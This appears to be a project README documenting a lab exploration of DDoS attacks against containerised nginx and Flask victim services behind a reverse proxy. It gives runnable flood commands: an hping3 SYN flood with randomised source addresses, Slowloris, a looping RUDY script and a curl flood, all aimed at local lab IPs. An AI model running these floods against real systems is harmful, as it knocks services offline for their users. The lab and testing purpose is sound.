

# Exploring DDoS attacks

## Reverse-proxy (reverse-proxy)

In order to create a more realistic environment, we create two subnetworks, one for the victim (victim-network) and one for the botnet (chn-network). To redirect network from one network to the other, we configure another container that plays the role of a reverse-proxy (passthrough) that gets the traffic to the victim service.

Create network `docker network create victim-network` before docker compose on the reverse-proxy.

## Types of Services

### Nginx with Limited Resources Serving a Static Webpage (static)
- Simple nginx configuration with reduced buffer sizes and a limited number of worker processes to simulate a constrained server environment.

### Flask App with Gunicorn (dynamic)
- Basic Flask app for serving dynamic content, deployed with Gunicorn and configured to use a restricted number of workers (e.g., 1 to 4).

### Baseline Flask App (baseline)
- Basic Flask app serving dynamic content without Gunicorn or reverse proxy integration, representing an unoptimized setup.

## Tools to Perform a DDoS/Stress Test

These are some general tools to perform DDoS, it was an initial exploration, even though we cannot use that in the case of our Cowrie
botnet.

## Simple curl script
**Description:** Just a dummy script to imitate a DDoS.
```sh
for i in {1..100}; do
    (
        while true; do
            curl -s http://0.0.0.0:5000/ > /dev/null
        done
    ) &
done
```

### hping3
**Description:** A command-line oriented TCP/IP packet assembler and analyzer, useful for simulating various types of attacks by crafting and flooding packets.

**Example:**
Install using your package manager:
```sh
sudo apt install hping3
```

Command to simulate a SYN flood:
```sh
sudo hping3 -S -d 10000 172.19.0.2 -k --rand-source --flood -p 5000
```
- `-S`: Sends SYN packets.
- `-d 10000`: Packet size (10,000 bytes).
- `172.19.0.2`: Target IP address.
- `-k`: Keeps the connection alive.
- `--rand-source`: Randomizes the source IP address (simulates a distributed attack).
- `--flood`: Sends packets as quickly as possible.
- `-p 5000`: Target port.

### wrk
**Description:** A modern HTTP benchmarking tool capable of generating high loads. Useful for testing endpoint response times under stress.

**Example:**
Install using your package manager:
```sh
sudo apt install wrk
```

Command to simulate traffic:
```sh
wrk -t40 -c500 -d300s http://localhost:5000
```
- `-t40`: Number of threads.
- `-c500`: Number of concurrent connections.
- `-d300s`: Duration of the test (300 seconds).
- `http://localhost:5000`: Target endpoint.

### Apache Benchmark (ab)
**Description:** A simple tool for benchmarking HTTP requests, particularly useful for testing server concurrency and handling capacity.

**Example:**
Install using your package manager:
```sh
sudo apt install apache2-utils
```

Command for benchmarking:
```sh
ab -l -n 1000000 -c 1000 -k http://0.0.0.0:5000/
```
- `-l`: Do not exit on socket errors.
- `-n 1000000`: Total number of requests to perform.
- `-c 1000`: Number of concurrent requests.
- `-k`: Enable HTTP Keep-Alive.
- `http://0.0.0.0:5000/`: Target URL.

### Slowloris
**Description:** A tool for performing layer 7 (application layer) attacks by opening many simultaneous connections and keeping them alive, effectively exhausting the target server’s resources.

**Usage:**
Install using Python pip:
```sh
pip install slowloris
# or
git clone https://github.com/gkbrk/slowloris
```

Command for launching the attack:
```sh
slowloris 172.19.0.2 -p 5000 -s 500
# or
python3 slowloris.py localhost -p 5002 -s 100 -v
```
- `172.19.0.2`: Target IP address.
- `-p 5000`: Target port.
- `-s 500`: Number of simultaneous connections.
- `-v`: Verbose output to see the logs.

### RUDY

This attacks are performed by opening fewr connections for a longer period and keeping them open as long as possible (depending on the resources of the attacker's machine). It opens concurrent POST HTTP connections and send payloads of varying sizes. It can be customised to send specific files as payloads, but by default is send a random payload of 1MB size.

**Usage:**
```sh
git clone https://github.com/darkweak/rudy
cd rudy
go run rudy.go [command]
```

I experiment a bit with different values for the options of the attack command, which slowed down the dynamic server. Instead of depending on one standalone command, I run a script that does 50 times the attack with sleeping 5 sec between each. 

```sh
#!/bin/bash
# Loop to run the attack 50 times with a 5-second pause between each
for i in {1..50}
do
   go run rudy.go run -u http://localhost:8081 -c 1000 -i 100s -p 1GB
   sleep 5
done
```

This port was used for me for our static victim which died. 

I got these logs from the container 


which proves that the nginx cannot handle the concurrent requests. 

Improtant is that I could not run the commands for loads of concurrent requests with a large payload (e.g, 5GB) withouth my host running out of memory.

## NGINX Config 

Configuring proxy to forward to the two victims 
also added aliasing for the names dynamic-victim and static-victim on the docker-compose.yaml on both static and dynamic. Also added some logs to see what is going on when the attack is made. 

```sh
events {
    worker_connections 1024; 
}

http {
    server {
        listen 80;

        # Forward to the dynamic victim
        location /dynamic {
            proxy_pass http://dynamic-victim:5000/;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
            proxy_buffering off;
            # Logs
            access_log /var/log/nginx/dynamic_access.log;
            error_log /var/log/nginx/dynamic_error.log debug;
        }

        # Forward to the static victim
        location /static {
            proxy_pass http://static-victim:80/;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
            proxy_buffering off;
            # Logs
            access_log /var/log/nginx/static_access.log;
            error_log /var/log/nginx/static_error.log debug;
        }
    }
}
```